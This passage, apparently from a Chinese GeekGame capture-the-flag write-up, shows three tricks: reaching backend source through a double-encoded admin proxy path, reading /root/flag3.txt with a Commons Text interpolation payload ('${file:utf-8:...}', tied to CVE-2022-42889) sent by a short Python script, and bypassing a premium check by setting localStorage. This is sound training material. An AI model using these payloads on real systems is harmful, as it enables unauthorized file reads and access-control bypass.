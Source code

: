 ```
{"type":"Bonus","value":"flag2{f2d9cc00-180b-404d-8117-d2e712c2e57b} 恭喜你发现flag2，还有其他flag等待你发现哦"}
```

### 打通整个系统

用获得flag2的方法访问`https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/localhost:8080%252fsource_bak`，可以得到`/bonus`的后端代码

```java
import org.apache.commons.text.StringSubstitutor;

@RestControllerpublic
class BonusController {
	@RequestMapping("/bonus")
	public QueryBean bonus(QueryBean queryBean) {
		if (queryBean.getType().equals("CommonsText")) {
			StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
			interpolator.setEnableSubstitutionInVariables(true);
			String value = replaceUnSafeWord(queryBean.getValue());
			String resultValue = interpolator.replace(value);
			queryBean.setValue(resultValue);
		} else {
			// flag3藏在/root/flag3.txt等待你发现
		}
		return queryBean;
	}
    // Leo_h：这里还有一段删除恶意脚本的代码，但我完全没有必要绕过它，就不粘过来了
}
```

虽然没有提供`QueryBean`类的定义，但可以看到它有`getType`和`getValue`两个方法。结合管理后台的表单项，可以猜测出这就是我们POST的表单。

根据`CVE-2022-42889`，我们发现`commons.text.StringSubstitutor`是好东西。我查了一下它的用法，发现它具有读文件的功能。

因此，将POST Data的`value`设置为`${file:utf-8:/root/flag3.txt}`即可读取到flag3

```python
import requests
index = "localhost:8080%252fbonus"
url = f"https://prob08-xxxxxxxx.geekgame.pku.edu.cn/admin/{index}/"
rce = "${file:utf-8:/root/flag3.txt}"
resp = requests.post(url,data={"type":"CommonsText","value":rce})
print(resp.content.decode("utf-8"))
```

~~咦，我好像根本没用到CVE-2022-42889啊~~

## 这也能卷-Flag1

在网页环境中按F12，选择源代码标签，查看`main.js`的代码，发现判断会员是通过`localStorage.getItem('i_am_premium_user') === 'true'`实现的

在网页控制台中输入`localStorage.setItem('i_am_premium_user','true')`即可成为会员，此时访问Premium界面即可获得flag1

## 381654729
